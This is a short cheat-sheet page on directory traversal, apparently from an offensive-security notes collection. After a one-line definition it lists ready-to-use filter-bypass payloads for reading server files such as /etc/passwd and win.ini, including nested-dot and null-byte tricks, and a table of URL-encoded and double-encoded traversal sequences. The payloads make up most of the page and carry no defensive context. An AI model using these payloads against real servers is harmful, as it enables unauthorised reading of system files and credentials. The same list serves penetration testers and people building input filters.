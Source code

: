 # ⭕ Directory Traversal

Directory traversal (or path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files

## <mark style="color:red;">Bypass path traversal filters</mark>

```
..\..\..\windows\win.ini --> Windows OS
../../../etc/passwd
....//....//....//etc/passwd
/var/www/images/../../../etc/passwd 
../../../etc/passwd%00.png --> null byte bypass
```

**URL Encoding**

| char | encode          |
| ---- | --------------- |
| ../  | %2e%2e%2f       |
| ../  | %252e%252e%252f |
| ../  | ..%252f         |
| ../  | ..%c0%af        |
| ../  | ..%ef%bc%8f     |
